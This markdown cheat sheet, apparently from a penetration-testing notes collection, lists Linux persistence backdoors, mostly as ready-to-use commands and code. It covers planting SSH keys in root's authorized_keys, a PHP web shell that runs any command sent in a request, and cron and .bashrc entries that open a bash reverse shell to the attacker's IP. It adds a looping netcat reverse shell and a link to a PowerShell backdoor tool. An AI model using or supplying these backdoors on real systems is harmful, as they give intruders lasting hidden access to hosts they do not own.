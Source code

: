 [back](/README.md)
# ssh backdoor

The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory.

1. generate ssh-keygen
```
ssh-keygen
```
2. go to /root.ssh and leave our public key there with name `authorized_keys`

---
# php backdoor

1. put php code inside /var/www/html as file shell.php
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

2. go to link http://[ip[/shell.php and execute command:

```
http://<ip>/shell.php?cmd=id
```

---
# cron job backdoor

1. create reverse_shell.sh
```
cat > reverse_shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/<your ip>/4444 0>&1
```
2. add reverse_shell.sh to execute every minute
```
echo "* * * * * root /path/to/reverse_shell.sh >> /etc/crontab
```

---
# bashrc backdoor

```
echo 'bash -i >& /dev/tcp/<your ip>/4444 0>&1' >> ~/.bashrc
```
every time user logs in, reverse_shell gets executed

---
# Reverse Shell Bash Loop

while true; do sleep 5 && mknod /dev/shm/p p; cat /dev/shm/p | /bin/bash -i | nc 127.0.0.1 9001 >/dev/shm/p; done

# links
- [powershell backdoor tool](https://github.com/ELMERIKH/Keres)